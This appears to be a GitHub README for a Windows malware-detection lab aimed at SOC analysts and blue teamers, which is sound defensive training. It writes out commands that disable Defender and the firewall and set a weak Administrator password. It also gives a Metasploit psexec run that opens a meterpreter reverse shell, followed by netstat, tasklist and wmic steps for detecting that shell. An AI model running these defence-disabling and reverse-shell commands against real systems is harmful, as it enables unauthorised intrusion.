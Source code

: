 # Windows Malware Analysis Lab via Metasploit

This lab demonstrates a **realistic malware simulation using Metasploit** and focuses on **detection and analysis techniques within Windows CLI**. It's intended for **SOC analysts**, **incident responders**, and **blue teamers** looking to sharpen their skills in post-exploitation process hunting.

---

## Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Windows VM (Administrator Access)
- **Tool Used**: Metasploit (psexec module with meterpreter reverse shell)

---

## Phase 1: Prepare Windows for Attack

### Disable Defender and Firewall

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net user Administrator password1234
ipconfig
```

 ![Disable Defender](./01_disable_defender.png)

---

## Phase 2: Attack from Kali using Metasploit

### Setup Exploit and Launch Payload

```bash
msfconsole -q
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST <Windows_IP>
set SMBUSER Administrator
set SMBPASS password1234
exploit
```

 ![Metasploit Attack Setup](./02_msf_attack_setup.png)

---

## Phase 3: Analyze on Windows Machine

### Step 1: Check for Open Connections

```powershell
netstat -naob
```

 ![Netstat Connections](./03_netstat_ports.png)

---

### Step 2: Resolve IP to Process ID

```powershell
netstat -f
tasklist /m /fi "pid eq 1476"
```

 ![Modules via Tasklist](./04_netstat_pid_modules.png)

---

### Step 3: Dig Deeper with WMIC

```powershell
wmic process where processid=1476 get commandline
wmic process get name,parentprocessid,processid | select-string 1476
```

 ![WMIC Process Details](./05_wmic_analysis.jpeg)

---

## Key Takeaways

- `netstat -naob` helps detect live reverse shell sessions (e.g., port 4444)
- `tasklist` and `wmic` provide process visibility and help identify injected/malicious activity
- Detection of PowerShell-based malware is possible through **manual PID tracking and command-line tracing**

---

## Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
🔗 [LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

## Folder Contents

```
Windows_Backdoor_Analysis_Lab/
├── 01_disable_defender.png
├── 02_msf_attack_setup.png
├── 03_netstat_ports.png
├── 04_netstat_pid_modules.png
├── 05_wmic_analysis.jpeg
└── README.md
```

## License

MIT License
